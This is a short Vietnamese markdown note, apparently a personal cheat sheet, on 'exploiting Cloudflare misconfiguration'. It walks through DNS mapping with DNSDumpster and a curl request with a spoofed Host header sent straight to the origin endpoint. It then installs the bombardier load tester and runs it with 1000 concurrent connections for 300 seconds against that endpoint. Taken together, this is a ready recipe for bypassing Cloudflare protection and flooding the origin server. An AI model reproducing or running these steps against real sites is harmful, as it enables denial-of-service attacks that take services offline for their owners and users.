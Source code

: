 # Khai thác lỗi cấu hình Cloudflare

- Sử dụng DNSDumpster - https://dnsdumpster.com/ để lập 1 map đơn giản về DNS
- Sử dụng Chrome để bắt socket
- Đoán luồng traffic / stack

- Request thử

```shell
curl -k -H "Host: domain.com" https://endpoint
```

- Cài đặt golang

```shell
brew install go
```

- Cài đặt `bombardier`

```shell
go install github.com/codesenberg/bombardier@latest
```

Quất thử

```shell
bombardier -c 1000 -d 300s \
  -H "Host: domain.com" \
  -k \
  https://endpoint
```

